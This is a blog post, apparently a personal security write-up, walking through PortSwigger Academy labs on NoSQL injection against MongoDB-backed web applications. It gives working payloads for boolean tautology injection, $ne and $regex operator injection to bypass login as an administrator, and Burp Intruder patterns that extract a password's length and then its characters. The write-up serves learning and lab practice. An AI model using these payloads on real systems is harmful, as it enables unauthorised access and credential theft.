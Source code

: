 ```yaml
---
layout: post
title: NoSQLi
subtitle: Insert NoSQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

NoSQL injection is similar to SQL injection in that it allows an attacker to manipulate or inject malicious input into a NoSQL query to retrieve, modify, or delete data. However, the key difference lies in the database type and query language.  
* SQLi
  * SQL database (E.g., MariaDB, MySQL, PostgreSQL)
  * Structure Query Language

  
* NoSQLi
  * Semi-structured database (E.g., MongoDB, CouchDB)
  * JSON-like documents or key-value pairs

### Types of NoSQLi
1. Syntax injection: Attacker injects an unclosed string literal (`'`), to break the query’s logic.
2. Operator injection: Attacker injects NoSQL operator (`$gt`, `$lt`, `$eq`, `$ne`, `$regex`, etc.) into the query, changing the query’s logic to return unintended results or bypass authentication.

### Lab
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#nosql-injection) to show how this vulnerability can lead to:

#### Detecting NoSQL injection
The product category filter for this specific web application is powered by MongoDB, I utilize NoSQL injection that causes the application to display unreleased products.  
  
Firstly, I capture and modify the `GET /filter?category=(category)` request using Burp Repeater.  
Then testing the vulnerability by using a single quote `'` to break the query and trigger a server error.  
After identifying the vulnerability, I insert boolean/truthy expression payloads to manipulate the server response with Burp Repeater and reveal hidden items.  
  ~~~
  GET /filter?category=Pets '||'1'=='1 or
  GET /filter?category=Pets '||1|| '
  ~~~

#### NoSQL operator injection to bypass authentication  
The login functionality for this specific application is powered by MongoDB. Which can be potentially vulnerable to NoSQL injection using MongoDB operators. Our goal is to log into the application as the administrator user.  
  
To test the operator injection vulnerability, I use Burp Proxy to capture the `login request`, and change the `password parameter value` with MongoDB operators on Burp Repeater
 ~~~
{"username": "user1", "password":{"$ne":"dgdfg"}}
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as user1 with password is not equal to dgdfg.  
 > HTTP/2 302 Found  
 > Location: /my-account?id=user1  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

Now that I know the web application is vulnerable to NoSQL injection, I will try using regex for all common administrator usernames and repeat the same process as the previous step for the password.
 ~~~
 {"username":{"$regex":"adm.*"},"password":{"$ne":""}} 
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as admin9hhcmyfb with password is not equal to blank.  
 > HTTP/2 302 Found  
 > /my-account?id=admin9hhcmyfb  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

{: .box-note}
**Note:** Refer to [MongoDB Documentation](https://www.mongodb.com/docs/php-library/current/crud/query/specify-a-query/) for more details about its operators

#### Exploiting NoSQL injection to extract data 
The user lookup functionality for this instnace is powered by a MongoDB NoSQL database. It is possibly vulnerable to NoSQL injection. Our goal is to extract the password for the administrator user, then log in to their account.
Firstly 
To test the vulnerability, I start off sending a single character with in GET `/user/lookup?user=`
 ~~~
 GET /user/lookup?user=' 
 ~~~
 > Response: The message in the response indicates this is vulnerabile to NoSQLi  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 58  
 > {"message": "There was an error getting user details"}  

Then I modify and send a Boolean expression in Burp Repeater to discover a hidden user, such as "administrator": 
 ~~~
 GET /user/lookup?user=wiener'||'1'=='1 
 ~~~
 > Response: It provides me the available user's information  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 96  
 > {"username": "administrator", "email":"admin@normal-user.net", "role":"administrator"}

Now we have the username, time to figure out thier password. I use Burp Intruder to submit numeric payloads (1–30) and determine that the administrator's password length is 8 by studying the Length of the response: 
 ~~~
 administrator' && this.password.length == §1§ 
 ~~~
![Burp Intruder Response](https://rencybersec.github.io/assets/img/githubpost/NoSQLi_1.png)

After determining the password length, I use Intruder’s Cluster Bomb attack mode to discover each character of the password. The first payload position represents the index (0–7) of each character in the administrator's password, while the second payload position represents the character (a–z) to test at each position. We will reuse the same technique from the previous step, where we analyze the response length to determine which letter appears in the password.
 ~~~
 administrator' && this.password[§0§] == '§a§
 ~~~
